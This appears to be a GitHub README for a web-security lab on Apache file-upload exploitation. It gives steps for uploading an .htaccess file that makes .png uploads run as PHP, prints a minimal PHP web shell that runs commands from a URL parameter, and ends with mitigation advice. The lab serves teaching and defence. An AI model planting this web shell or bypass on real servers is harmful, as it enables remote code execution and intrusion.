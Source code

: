 # 🛡️ File Upload Exploitation – Apache .htaccess Bypass

[![Lab Type](https://img.shields.io/badge/Lab-Web_Exploit-blue)](https://github.com/) 
[![Severity](https://img.shields.io/badge/Severity-High-red)](https://github.com/) 
[![RCE](https://img.shields.io/badge/RCE-Confirmed-brightgreen)](https://github.com/) 
[![PHP](https://img.shields.io/badge/Language-PHP-purple)](https://www.php.net/) 
[![Apache](https://img.shields.io/badge/Server-Apache-orange)](https://httpd.apache.org/) 
[![File Upload](https://img.shields.io/badge/Feature-File_Upload-yellow)](https://github.com/)  

---

## 📑 Table of Contents

1. [Overview](#overview)  
2. [Objective](#objective)  
3. [Vulnerability Description](#vulnerability-description)  
4. [Exploitation Steps](#exploitation-steps)  
5. [Proof of Exploit](#proof-of-exploit)
5. [Proof of Concept](#proof-of-concept)  
6. [Mitigation](#mitigation)  
7. [References](#references)  

---

## Overview

This lab demonstrates a **file upload vulnerability** in a simulated web application. By exploiting weak validation, we are able to achieve **Remote Code Execution (RCE)** on an Apache server using an `.htaccess` bypass technique.

---

## Objective

- Understand file upload vulnerabilities  
- Learn how `.htaccess` can be abused to execute uploaded files  
- Practice safe exploitation in a controlled environment  

---

## Vulnerability Description

File upload functionality is often a critical entry point for attackers. 

In this lab:

- The web application **fails to properly validate file types**  
- Apache `.htaccess` files are **not restricted**, allowing uploaded files to execute as PHP scripts  
- This allows attackers to execute arbitrary code on the server  

---

## Exploitation Steps

1. Prepare the exploit files:  
   - `exploit.php` — the malicious PHP web shell  
   - `blank.png` — a harmless-looking image file to bypass file type restrictions  
2. Upload `blank.png` to test the upload functionality  
3. Upload `exploit.php` disguised as an allowed file  
4. Upload an `.htaccess` file to enforce PHP execution on disguised uploads:  

```apache
AddType application/x-httpd-php .png
````

5. Access the uploaded `exploit.php` via the browser to execute commands

---

## PROOF OF EXPLOIT

<img width="959" height="1079" alt="Screenshot 2025-08-29 133841" src="https://github.com/user-attachments/assets/b8337f1d-1456-40de-b98c-f0e1e3971e13" />


---

## Proof of Concept

**exploit.php**:

```php
<?php
// Simple PHP web shell example
if(isset($_GET['cmd'])){
    system($_GET['cmd']);
}
?>
```

Test the exploit:

```
docker run -d -p 8080:80 -v /path/to/uploads:/var/www/html php:8.2-apache
```

---

## Mitigation

* **Validate uploaded files**: restrict by MIME type and file extension
* **Rename uploaded files** and store outside web root
* **Disable `.htaccess` overrides** where not required
* **Use least privilege permissions** for upload directories

---

## References

* [PHP Official Documentation](https://www.php.net/)
* [Apache HTTP Server Documentation](https://httpd.apache.org/)
* [OWASP File Upload Cheat Sheet](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
